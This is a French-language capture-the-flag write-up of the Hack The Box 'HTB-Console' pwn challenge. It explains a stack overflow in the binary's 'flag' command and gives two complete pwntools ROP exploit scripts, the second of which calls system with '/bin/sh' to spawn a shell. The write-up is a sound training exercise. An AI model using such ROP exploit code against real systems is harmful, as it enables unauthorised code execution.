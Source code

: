 # HTB-Console [Pwn] Challenge

`-- File Type --`

Le fichier est un ELF Linux 64 bit avec comme protection RX qui ne nous permet pas d’exécuter de code dans le stack nous allons donc utiliser la méthode ROP return object programmation pour faire notre but final un RCE exécuter.

`-- Le programme --`

Le programme est un shell. Nous avons plusieurs commandes disponible :

- `id` nous avons le même texte dans tous les cas
- `dir` nous avons le même texte dans tous les cas
- `flag` nous permet de rentrer une entré qui surchargé fais une erreur de segmentation. Car nous avons une première variable nous disant que la limite d’entré est de 16 mais la commande flag à le droit à 48.
- `hof` nous permet de rentrer aussi un nombre de caractères différent mais plus petit que l’original.
- `ls` va nous afficher le même tableau à chaque fois.
- `date` va exécuter la commande système ‘date’ dans le terminal.

La partie vulnérable est la commande flag et son défaut de segmentation puisque nous devons réussir le challenge avec un ROP nous allons devoir trouver un moment ou le programme utilise une commande système. 

Pour trouver ou le programme utilise une commande système nous pouvons utiliser l’outil `objdump`

`objdump -D htb-console | grep system`

Cette commande va nous afficher tous les moment dans le code de htb-console ou une commande system est utilisé

```python
┌──(root💀kali)-[/home/kali/Desktop]
└─# objdump -D htb-console | grep system                                                                                              
0000000000401040 <system@plt>:
  401381:       e8 ba fc ff ff          call   401040 <system@plt>
```

On va chercher dans ghidra cette commande avec le numéro 401381

![Untitled](HTB-Console%20%5BPwn%5D%20Challenge%20c01cf6f560f4440891230dd14605c3bd/Untitled.png)

Pour créé notre payload nous allons avoir besoin 

- Du padding savoir combien de caractère nous avons besoin pour réécrire sur le programme
- Une fonction Pop rdi dans le code
- D’un pointeur de string à exécute dans le code
- Et d’une exécution d’une commande system dans le code

Le padding nous l’obtenons avec la commande cyclic(x) cyclic_find(stack) et gdb.

La fonction pop rdi peux être trouver avec l’outil ROPgadget

`ROPgadget --binary htb-console`

On trouve dans le résultat de la recherche un pop rdi return

`0x0000000000401473 : pop rdi ; ret`

dans ghidra 

![Untitled](HTB-Console%20%5BPwn%5D%20Challenge%20c01cf6f560f4440891230dd14605c3bd/Untitled%201.png)

Pour le pointeur du string nous devons trouver une commande shell exécuter par le programme comme la commande date puis retrouver son pointeur.

Avec un double clique sur le mot “date” dans ghidra le logiciel nous amène à son pointeur.

0x00402107

A partir de la nous pouvons écrire cette exploit :

```python
#!/usr/bin/python3

from pwn import *

def main():
        context.log_level='DEBUG'
        context.update(arch='amd64', os='linux')
        log.info('htb-console Exploit')
        p=process('./htb-console')

        system_address = 0x00401381
        #payload
        padding = b'a'*24
        system = p64(system_address)
        pop_rdi = p64(0x401473)
        pointer_to_string_to_execute = p64(0x00402107)
        payload = padding + pop_rdi + pointer_to_string_to_execute + system

        p.recvuntil('>> ')
        p.sendline('flag')
        p.recvuntil('Enter flag: ')
        p.sendline(payload)

        p.interactive()

if __name__ == '__main__':
        main()
```

La seul chose qu’il va réussir pour le moment est d’exécuter la commande ‘date’ dans l’entré flag pas utile pour le moment mais on peux continuer la dessus.

`-- De Date à root --`

Nous avons déjà un exploit fonctionnel pouvant lancer la commande date sans mettre la commande prévu à cette effet mais pour réussir le challenge nous devons obtenir le root

Dans le programme htb-console nous avons un endroit ou nous pouvons mettre du texte autre que flag c’est hof nous avons peux de place pour mettre quelque chose mais nous pouvons voir dans ghidra que le texte à un pointeur 

![Untitled](HTB-Console%20%5BPwn%5D%20Challenge%20c01cf6f560f4440891230dd14605c3bd/Untitled%202.png)

Nous allons donc changer l’adresse pointeur de date par celle ci et nous allons avant flag mettre dans hof /bin/sh le programme en revenant sur le pointeur ou nous avons /bin/sh va exécuté le shell de la machine et nous allons pouvoir être root.

```python
#!/usr/bin/python3

from pwn import *

def main():
        context.log_level='DEBUG'
        context.update(arch='amd64', os='linux')
        log.info('htb-console Exploit')
        p=process('./htb-console')

        system_address = 0x00401381
        #payload
        padding = b'a'*24
        system = p64(system_address)
        pop_rdi = p64(0x401473)
        pointer_to_string_to_execute = p64(0x004040b0)
        payload = padding + pop_rdi + pointer_to_string_to_execute + system

        p.sendlineafter('>>', 'hof')
        p.sendlineafter('Enter your name: ', '/bin/sh')
        p.recvuntil('>> ')
        p.sendline('flag')
        p.recvuntil('Enter flag: ')
        p.sendline(payload)

        p.interactive()

if __name__ == '__main__':
        main()
```

Avec cette epxloit nous sommes maintenant root de la machine et nous pouvons exécuter l’exploit sur un serveur distant.